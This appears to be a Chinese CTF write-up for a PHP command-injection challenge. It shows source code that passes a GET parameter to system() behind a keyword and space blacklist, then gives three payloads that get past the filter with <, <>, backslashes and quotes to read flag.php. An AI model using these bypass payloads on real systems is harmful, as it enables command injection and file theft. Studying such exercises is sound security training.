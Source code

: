 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

$

*

以及无回显





### 第一种

利用<绕过空格

利用\绕过字母过滤

```
?c=ls||
```

![image-20250403152956166](./assets/image-20250403152956166.png)

```
?c=tac<fl\ag.php||
```

![image-20250403153036848](./assets/image-20250403153036848.png)





### 第二种

<>绕过空格

```
?c=tac<>fl\ag.php||
```

![image-20250403153137615](./assets/image-20250403153137615.png)





### 第三种

利用''绕过字母过滤

```
?c=tac<>fl''ag.php||
```

![image-20250403153216899](./assets/image-20250403153216899.png)



